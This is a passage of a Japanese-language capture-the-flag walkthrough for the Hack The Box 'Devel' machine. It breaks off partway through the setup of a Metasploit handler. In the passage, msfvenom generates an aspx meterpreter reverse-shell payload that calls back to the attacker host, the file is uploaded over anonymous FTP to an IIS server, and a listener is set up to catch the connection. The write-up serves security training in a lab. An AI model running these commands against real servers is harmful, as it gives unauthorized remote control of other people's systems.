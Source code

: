 これを利用してmsfvenomを利用して、リバースシェルできるようにしましょう。
Microsoft IISなのでaspxで生成してリバースシェルを獲得しようと思います。

# 侵入(パート1)
まずはmsfvenomを使用してペイロードを生成します。

```
kali@kali:~/htb/Devel$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx > devel.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2818 bytes
```
- -p...ペイロード
- LHOST...接続を受けるホストのIP
- LPORT...接続を受けるホストのポート
- -f...フォーマット


これを先ほどと同じようにftpを使って流し込みます。

```
kali@kali:~/htb/Devel$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put devel.aspx
local: devel.aspx remote: devel.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2854 bytes sent in 0.00 secs (23.4637 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
06-08-20  05:31PM                 2854 devel.aspx
03-17-17  05:37PM                  689 iisstart.htm
06-08-20  05:17PM                   41 test.html
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
ちゃんとアップロードできていることが分かります。
次に受けるハンドラを設定します。

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

```